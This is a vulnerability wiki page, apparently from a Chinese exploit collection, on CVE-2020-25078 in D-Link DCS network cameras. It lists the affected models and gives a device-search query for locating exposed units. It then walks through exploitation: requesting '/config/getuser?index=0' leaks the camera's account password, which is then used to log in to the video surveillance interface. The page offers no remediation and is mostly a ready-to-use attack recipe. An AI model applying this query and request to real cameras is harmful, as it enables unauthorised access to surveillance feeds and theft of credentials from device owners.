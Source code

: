 # D-Link DCS series monitoring account password information leakage vulnerability CVE-2020-25078

## Vulnerability Description

D-Link DCS series monitoring by accessing specific URLs to obtain account password information. Attackers can access the background through vulnerabilities and obtain video surveillance pages.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">DCS-2530L</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">DCS-2670L</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">DCS-4603</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">DCS-4622</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">DCS-4701E</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">DCS-4703E</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">DCS-4705E</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">DCS-4802E</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">DCS-P703</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="D_Link-DCS-2530L"</span>

## Vulnerability reappears



Visit the login page as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/link-9.png)



The Url with a vulnerability is, which leaked the account password



```plain
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/link-10.png)



Log in to the system with leaked account password



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/link-11.png)
